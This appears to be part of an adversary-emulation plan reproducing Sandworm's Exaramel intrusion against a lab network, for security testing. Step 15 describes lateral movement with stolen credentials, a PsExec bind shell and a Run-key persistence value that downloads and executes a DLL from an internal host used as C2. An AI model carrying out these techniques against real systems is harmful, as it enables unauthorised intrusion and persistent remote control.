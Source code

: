 [Source Code](/Resources/Exaramel/worker/worker.go#L100)

Confirm SSH keys are present on attack platform:

```bash
ls -lsah files/
```

### :microscope: Cited Intelligence

* https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/

* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf

<br>

## Test 8 (Steps 15-17)

### Step 15 - Move laterally to Windows host

:microphone: `voice track`

During this step, Sandworm uses credentials gained from step4 to move laterally to gammu/10.0.1.7 as local admin user fherbert.

The way this works is Sandworm first uploads an Exaramel dropper to disk using smbclient with valid credentials. 

The Exaramel dropper is uploaded to `C:\\Windows\\wsmprovav.exe`.

Sandworm then establishes a bind shell to gammu using PsExec.py from the Impacket framework.

From the bind shell, Sandworm establishes registry persistance as user fherbert.

Sandworm then disconnects from the bindshell.

Notionally, the legitimate fherbert user logs in via RDP.

This causes the registry persistence to execute the Exaramel dropper.

The exaramel dropper downloads and executes an Exaramel DLL.


```
Compromised user info:

User:	fherbert@WORKGROUP

System: 10.0.1.7 / gammu

PsExec Service: Windows Check AV

File write: C:\\Windows\\wsmprovav.exe, C:\\Windows\\wsmprovav.dll

Registry Path: HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run

Key: SecurityHealth

Value: C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll

Exaramel-Windows C2: 192.168.0.4:443 HTTPS

```
